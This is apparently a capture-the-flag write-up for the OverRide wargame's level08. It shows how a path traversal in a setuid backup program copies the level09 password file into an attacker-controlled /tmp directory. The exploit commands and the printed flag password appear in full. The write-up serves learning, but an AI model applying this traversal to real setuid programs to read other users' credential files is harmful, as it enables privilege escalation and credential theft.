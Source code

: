In the source code, we can see 4 things:
1. First of all, a log file in write only is open: `FILE *log = fopen("./backups/.log", "w");`
2. Then, a file in read only is open from the data user input: `FILE *read_file = fopen(argv[1], "r");`
3. We open a file in write mode which is a concatenation of `./backups` and `argv[1]`
4. For each char in the read_file, write it into the write one.

To exploit this, we need to have a way were the `read_file` is equal to `/home/users/level09/.pass`,
and the writing one is a file that we can read.

To do so, if we are in the `/tmp` directory, and we replicate the directory structure of `levle09` users, such as:
`mkdir -p /tmp/home/users/level09/`

And we create a `backups/.log` file in `tmp`:
`mkdir /tmp/backups && touch /tmp/backups/.log`

We can specify from the `/tmp` directory the following path:
`../home/users/level09/.pass`

If we resolve it with the point of view of the `fopen` for read file, we'll open:
`/tmp/../home/users/level09/.pass` (so the good file).

And if we check with the write file:
```c
char path[64];
strcpy(path, "./backups/");
// /tmp/backups/../home/users/level09/.pass
// <=> /tmp/home/users/level09/.pass
strncat(path, argv[1], 100 - strlen(path));

int fd = open(path, 193, 432)
```

With that, we control the write directory, and we can properly read the level09 flag.

```sh
level08@OverRide:/tmp$ ~/level08 ../home/users/level09/.pass
level08@OverRide:/tmp$ cat ./home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```